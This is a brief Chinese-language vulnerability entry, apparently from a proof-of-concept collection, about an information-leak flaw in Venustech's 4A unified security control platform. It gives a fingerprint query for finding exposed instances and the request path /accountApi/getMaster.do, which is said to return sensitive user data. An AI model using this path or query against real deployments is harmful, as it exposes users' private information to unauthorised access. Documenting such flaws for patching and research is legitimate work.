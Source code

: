 # 启明星辰 4A统一安全管控平台 getMaster.do 信息泄漏漏洞

# 启明星辰 4A统一安全管控平台 getMaster.do 信息泄漏漏洞

## 漏洞描述

启明星辰 4A统一安全管控平台 getMaster.do 接口存在信息泄漏漏洞，通过发送特定请求包可以获取用户敏感信息

## 漏洞影响

启明星辰 4A统一安全管控平台

## 网络测绘

web.body="cas/css/ace-part2.min.css"

## 漏洞复现

登陆页面

![image-20230828144032254](images/image-20230828144032254.png)

验证POC

```
/accountApi/getMaster.do
```

![image-20230828144049975](images/image-20230828144049975.png)


